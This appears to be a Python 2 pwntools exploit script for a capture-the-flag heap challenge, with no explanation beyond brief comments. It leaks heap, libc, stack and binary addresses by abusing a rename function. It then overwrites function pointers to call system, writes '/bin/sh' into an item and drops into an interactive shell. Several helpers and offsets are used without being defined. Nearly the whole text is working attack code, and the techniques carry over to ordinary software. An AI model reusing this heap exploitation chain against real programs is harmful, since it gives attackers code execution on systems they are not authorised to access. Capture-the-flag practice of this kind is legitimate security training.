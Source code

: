 ```python
def rename(lot, name):
    send("5) S", 4)
    send(":\n", lot)
    send(":\n", name)


#leak heap address
add(1, 'A'*16) #1
rename(1,'') 
add(1, 'b'*16) #1
rename(1,'\xff'*8) 
view()
p.readuntil('\xff'*8)
leak = p.readuntil(' (')[:-2]
heap = u64(leak + '\x00'*(8-len(leak)))-0x60
print hex(heap)


#leak libc
rename(1,"")
add(1,'a'*16)
rename(1,p64(1)+p64(heap+offset+off2))
view()
p.readuntil('#2: ')
leak = p.readuntil(' (')[:-2][:8]
libc = u64(leak + '\x00'*(8-len(leak)))-0x101740
print "libc", hex(libc)

#leak stack
environ = libc+0x3c6f38
rename(1,p64(1)+p64(environ))
view()
p.readuntil('#2: ')
leak = p.readuntil(' (')[:-2][:8]
stack = u64(leak + '\x00'*(8-len(leak)))
print "stack", hex(stack)

#leak binary
rename(1,p64(1)+p64(stack -0x100))
view()
p.readuntil('#2: ')
leak = p.readuntil(' (')[:-2][:8]
binary = (u64(leak + '\x00'*(8-len(leak)))&0xfffffffffffff000)-0x1000

system=libc+0x453a0
fun = binary+0x4060

print "binary", hex(binary)

#get overwrite of function pointers
add(1, p64(0xffff0)*6)
rename(1,p64(1)+p64(fun-16))
demolish(2)
add(1,p64(binary)*6)
add(1,p64(binary)*2+p64(system))

#get the first item to sh to get shell with system call
rename(1,"/bin/sh\x00")


#submit the park for a shell

p.interactive()
```